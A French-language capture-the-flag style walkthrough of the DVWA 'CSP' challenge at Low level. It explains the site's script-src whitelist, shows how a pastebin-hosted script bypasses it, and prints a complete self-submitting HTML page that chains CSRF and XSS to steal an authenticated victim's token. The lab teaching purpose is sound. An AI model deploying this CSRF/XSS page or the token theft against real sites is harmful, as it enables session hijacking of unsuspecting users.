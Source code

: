 # Niveau "Low"

Le challenge en niveau "Low" nous invite à saisir une URL afin d'exécuter un script externe :

![](../../../../.gitbook/assets/83d66bf2506d8abbf52df7aa04c8491c.png)

Etant donné que le challenge porte sur CSP, analysons la politique en place :

![](../../../../.gitbook/assets/4c95c1893c15a69870cccd04fed456fd.png)

```text
Content-Security-Policy: script-src 'self' https://pastebin.com example.com code.jquery.com https://ssl.google-analytics.com
```

Ce qui donne pour la directive `script-src` :

* `'self'` : Autorise l'exécution de ressources fournies par la même origine
* `https://pastebin.com` : Autorise l'exécution de ressources hébergées sur _https://pastebin.com_
* `example.com` : Autorise l'exécution de ressources hébergées sur _example.com_
* `code.jquery.com` : Autorise l'exécution de ressources hébergées sur le sous domaine _code.jquery.com_
* `https://ssl.google-analytics.com` : Autorise l'exécution de ressources hébergées sur le sous domaine _ssl.google-analytics.com_

Ma première idée a été d'exploiter la vulnérabilité de file upload trop permissive qui va nous permettre d'uploader sur la plateforme un fichier javascript malicieux. Ce fichier aura donc la même origine que celle de l'application :

![](../../../../.gitbook/assets/abd8c00a65a0114f8bf3bb217a51e642.png)

Etant donné qu'il est possible d'accéder directement au fichier, nous pouvons soumettre son URL dans le formulaire du challenge CSP :

![](../../../../.gitbook/assets/f4cdd55c232175ca8a47209179707fb7.png)

Cela permet de contourner la source `'self'` du CSP.

Concernant la liste blanche d'URL autorisées, `https://pastbin.com` va nous permettre également l'exécution de script :

![](../../../../.gitbook/assets/9fe51b4422633e6f836324885e0175fa.png)

Pour l'exploitation, on utilise le mode "raw" afin de soumettre l'URL à DVWA :

![](../../../../.gitbook/assets/95f6e25ce122eccbf6fea456fa91fdbf.png)

Cela va nous permettre d'utiliser un biais de la liste blanche imposée par DVWA en utilisant une fonctionnalité de pastebin :

![](../../../../.gitbook/assets/072bf6bc8bdd3c9cd0d964b3f5f0fd69.png)

On adapte notre payload afin de récupérer le jeton de notre victime :

![](../../../../.gitbook/assets/f553280d21b7d08019c14bdb7584c2f3.png)

Il reste maintenant à savoir comment s'y prendre pour que notre attaque affecte un autre utilisateur. En effet, la requête n'est pas de type **`GET`** mais de type **`POST`**, ce qui nous empêche de partager facilement un lien forgé par nos soins à notre victime : 

![](../../../../.gitbook/assets/26904d65167ec3365c6c78f8fb603a0f.png)

La solution que j'ai trouvée pour remédier à ce problème est d'utiliser la faille CSRF présente dans cette requête \(aucun mécanisme de protection n'est présent\). Il nous faut donc héberger sur un serveur d'attaque la page malicieuse suivante :

```markup
<html>
  <head>
    <title>Exploitation POST XSS</title>
  </head>

  <body>
    <p>Post reflected XSS !</p>
    <form action="http://192.168.56.203:8080/vulnerabilities/csp/" method="POST" name="postExploitXSS">
      <input type="text" name="include" value="https://pastebin.com/raw/GSVw7nnZ">
      <button type="submit">Envoyer le message</button>
    </form>

    <script>document.forms['postExploitXSS'].submit();</script>
    </body>
</html>
```

Puis de fournir à notre victime le lien permettant d'accéder à notre page, par exemple `http://192.168.56.182/dvwa/post_xss.html` :

![](../../../../.gitbook/assets/7fa84faa90d73ff547b4b042fe15240a.png)

La victime, obligatoirement authentifiée, sera redirigée vers le site du challenge CSP de DVWA et l'attaquant  réceptionnera son jeton :

![](../../../../.gitbook/assets/22eb6eb75298fced197214c1f6f963fc.png)







